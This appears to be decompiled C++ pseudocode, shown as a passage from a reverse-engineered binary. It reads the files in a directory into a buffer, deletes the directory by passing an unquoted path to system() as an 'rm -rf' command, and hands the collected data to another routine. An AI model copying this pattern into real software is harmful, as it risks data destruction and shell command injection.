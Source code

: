 ```c
      std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(command);
      std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(v22);
      std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(v25);
      std::ifstream::basic_ifstream(v25, v21[0], 6LL);
      v12 = std::istream::tellg((std::istream *)v25);
      v13 = (char *)operator new[](v12 + 1);
      std::istream::seekg(v25, 0LL, 0LL);
      std::istream::read((std::istream *)v25, v13, v12);
      std::ifstream::close(v25);
      v13[v12] = 0;
      while ( v18 + strlen(v13) > size )
      {
        size *= 2LL;
        v6 = realloc(v6, size);
      }
      strcat((char *)v6, v13);
      v18 += v12;
      free(v13);
      std::ifstream::~ifstream(v25);
      std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(v21);
    }
    a3 = readdir(a4);
  }
  sub_2540(v25, ".txt");
  v14 = std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::insert(v25, 0LL, v20);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(v22, v14);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(v25);
  sub_2540(v25, "rm -rf ");
  v15 = std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v25, v20);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(command, v15);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(v25);
  system(command[0]);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(v25, v22);
  sub_26A3(v18, v6, v25);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(v25);
  free(v6);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(command);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(v22);
  return std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_dispose(v20);
}
```
